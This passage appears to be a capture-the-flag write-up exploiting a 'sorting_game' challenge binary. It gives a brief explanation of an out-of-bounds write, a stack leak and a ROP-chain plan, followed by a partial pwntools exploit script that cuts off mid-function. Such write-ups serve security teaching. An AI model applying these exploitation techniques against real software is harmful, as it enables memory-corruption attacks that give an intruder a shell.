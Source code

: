 There is an OOB write, meaning we can write the previous word. The previous word is a pointer, meaning we can write anywhere! Well since PIE and ASLR is on not much can be done, but since we have a stack leak we can write a ROP chain using the cost variable. From there we get a libc leak, then write another ROP chain to get a shell.

Well writing to the cost variable is kinda weird but using z3 I got like a 50% chance to get the arbitrary write.

Here's my full exploit:

```py


from pwn import *
from z3 import *
import codecs

p = process('./sorting_game')

largest_number = 0x0000fffffffffffe

# print(lst)

lo = 0
hi = largest_number
haha = 54
for j in range(haha):
	mid = (lo + hi) // 2
	p.sendlineafter("nomor bilangan:", str(1))
	p.sendlineafter("baru:", str(largest_number))
	p.sendlineafter("nomor bilangan:", str(2))
	p.sendlineafter("baru:", str(largest_number-1))

	for i in range(30):
		p.sendlineafter("nomor bilangan:", str(32-i))
		# print(str(largest_number - i))
		p.sendlineafter("baru:", str(largest_number - 32 + i))

	p.sendlineafter("nomor bilangan:", str(1))
	p.sendlineafter("baru:", str(mid))
	ans = p.recvuntil("menang!").decode('ascii')
	if("Anda menang!" in ans):
		hi = mid - 1
	else:
		lo = mid + 1
	if(j != haha-1):
		p.sendlineafter("(Y/N)", 'Y')

stack_leak = lo
print(hex(stack_leak))



def adder(amount, address, not_help=True, aaa = False):

	if(not_help):
		p.sendlineafter("(Y/N)", 'Y')
	p.sendlineafter("nomor bilangan:", str(1))
	p.sendlineafter("baru:", str(largest_number))
	p.sendlineafter("nomor bilangan:", str(2))
	p.sendlineafter("baru:", str(largest_number-1))
	p.sendlineafter("nomor bilangan:", str(3))
	p.sendlineafter("baru:", str(largest_number-2))

	for i in range(29):
```
